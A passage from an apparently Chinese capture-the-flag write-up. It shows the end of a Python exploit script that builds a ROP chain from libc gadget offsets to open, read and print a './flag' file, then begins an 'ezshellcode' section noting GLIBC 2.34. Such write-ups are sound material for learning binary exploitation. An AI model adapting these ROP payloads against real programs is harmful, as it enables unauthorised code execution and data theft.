 ```plain

rsi=0x000000000002601f+libc_base
rdx=0x0000000000142c92+libc_base

s(pl)
#duan()
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)

s(pl)
itr()
```

## ezshellcode

### 思路

GLIBC\_2.34，所以这里用的 ubuntu22

[![](assets/1708654729-d0a8546c545a17efeff2ff2a3450311b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012007-4b60d1f8-d014-1.png)

[![](assets/1708654729-9690b8b78f0653ac24882dbcb5598440.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012012-4e2f851e-d014-1.png)  
其实这里就是输入 shellcode
